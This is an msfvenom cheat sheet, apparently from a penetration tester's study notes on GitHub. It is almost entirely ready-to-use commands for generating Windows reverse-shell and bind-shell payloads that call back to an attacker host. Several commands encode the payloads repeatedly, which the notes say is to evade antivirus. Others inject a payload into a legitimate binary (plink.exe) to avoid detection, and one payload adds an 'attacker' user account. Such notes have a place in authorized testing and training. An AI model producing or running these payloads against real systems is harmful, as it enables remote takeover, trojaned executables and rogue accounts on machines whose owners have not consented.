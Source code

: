 
# Msfvenom cheat sheet


```bash
# msfvenom help
## -i, iterator
## -e, encoder
## -s, space
## --smallest, smallest space
msfvenom -l formats
msfvenom -l encoders
search flash

# common para
-b "\x00\x0a\x0d" 
-f c 
-e x86/shikata_ga_nai -i 5 
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
-p payload
lhost lport, listen ip and port
-f format(exe,)
-o output file
-e , msf encoders;encode 绕过 av 检测
-i set the desired number of encoding interations
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
-x ， specify file to inject into 注入文件，绕过检测
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

//msfconsole  generate 
generate -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o test.exe

# msfconsole generate payload
use payload/windows/shell_reverse_tcp
set LPORT 5555
set LHOST 192.168.0.2
generate

generate -h

# windows
use payload/windows/exec
use payload/cmd/windows/generic
```
## windows

```bash
# reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

# bind shell
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe

# create user
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe

# cmd shell
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```